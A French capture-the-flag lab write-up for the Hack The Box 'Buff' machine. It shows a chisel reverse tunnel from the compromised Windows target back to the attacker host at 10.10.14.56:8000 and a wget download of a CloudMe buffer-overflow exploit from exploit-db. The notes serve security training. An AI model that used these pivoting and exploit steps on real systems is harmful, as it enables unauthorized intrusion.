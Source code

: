 plink fonctionne pas, ça me saoule donc on va utiliser chisel 

1 - chisel server

`git clone https://github.com/jpillora/chisel.git`

aller dans chisel et `go build`

2 - télécharger client chisel windows [https://github.com/jpillora/chisel/releases/tag/v1.7.2](https://github.com/jpillora/chisel/releases/tag/v1.7.2)

~~~
root@Host-001:~/Bureau/htb/buff# mv /root/Téléchargements/chisel_1.7.2_windows_amd64.gz .
root@Host-001:~/Bureau/htb/buff# gzip -d chisel_1.7.2_windows_amd64.gz 
root@Host-001:~/Bureau/htb/buff# ls
44470     buff      Buff.ctb~                   cloudme.py  plink32.exe
48506.py  Buff.ctb  chisel_1.7.2_windows_amd64  nc.exe      plink.exe
root@Host-001:~/Bureau/htb/buff# 
root@Host-001:~/Bureau/htb/buff# mv chisel_1.7.2_windows_amd64 chisel.exe
~~~

3 - upload chisel client sur la cible

4 - Lancer chisel server

~~~
root@Host-001:~/Bureau/htb/buff/chisel# ./chisel server -p 8000 -reverse -v
2020/11/14 16:03:45 server: Reverse tunnelling enabled
2020/11/14 16:03:45 server: Fingerprint 91:f1:cc:da:03:36:06:40:71:1b:ab:a6:64:17:53:c0
2020/11/14 16:03:45 server: Listening on http://0.0.0.0:8000
~~~

5 - Sur la cible lancer le client

~~~
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.56:8000 R:8888:127.0.0.1:8888
chisel.exe client 10.10.14.56:8000 R:8888:127.0.0.1:8888
2020/11/14 15:11:38 client: Connecting to ws://10.10.14.56:8000
2020/11/14 15:11:39 client: Fingerprint 91:f1:cc:da:03:36:06:40:71:1b:ab:a6:64:17:53:c0
2020/11/14 15:11:39 client: Connected (Latency 264.0656ms)
~~~

Downloader l'exploit CloudMe Sync 1.11.0 - Local Buffer Overflow [https://www.exploit-db.com/exploits/44470](https://www.exploit-db.com/exploits/44470) 

~~~
root@Host-001:~/Bureau/htb/buff# wget https://www.exploit-db.com/raw/44470
--2020-11-15 06:15:24--  https://www.exploit-db.com/raw/44470
Résolution de www.exploit-db.com (www.exploit-db.com)… 192.124.249.13
Connexion à www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 2444 (2,4K) [text/plain]
Sauvegarde en : « 44470 »

44470               100%[===================>]   2,39K  --.-KB/s    ds 0s      

2020-11-15 06:15:24 (35,6 MB/s) — « 44470 » sauvegardé [2444/2444]

root@Host-001:~/Bureau/htb/buff# mv 44470 exploit.py
root@Host-001:~/Bureau/htb/buff# 
~~~
